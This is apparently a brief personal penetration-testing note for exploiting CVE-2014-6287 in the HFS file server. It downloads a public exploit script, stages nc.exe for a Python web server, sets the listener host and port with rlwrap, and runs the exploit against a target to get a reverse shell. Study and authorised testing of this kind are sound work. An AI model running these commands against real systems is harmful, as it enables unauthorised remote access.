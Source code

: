 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```
wget https://gist.githubusercontent.com/AfroThundr3007730/834858b381634de8417f301620a2ccf9/raw/783473905951169e49afaf5958e89b23f5a8743f/cve-2014-6287.py
```

```
mkdir bin && cp /usr/share/windows-resources/binaries/nc.exe ./bin
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

Update lhost and lport variables.

[[rlwrap]]

```
python cve-2014-6287.py $TARGET 9505
```







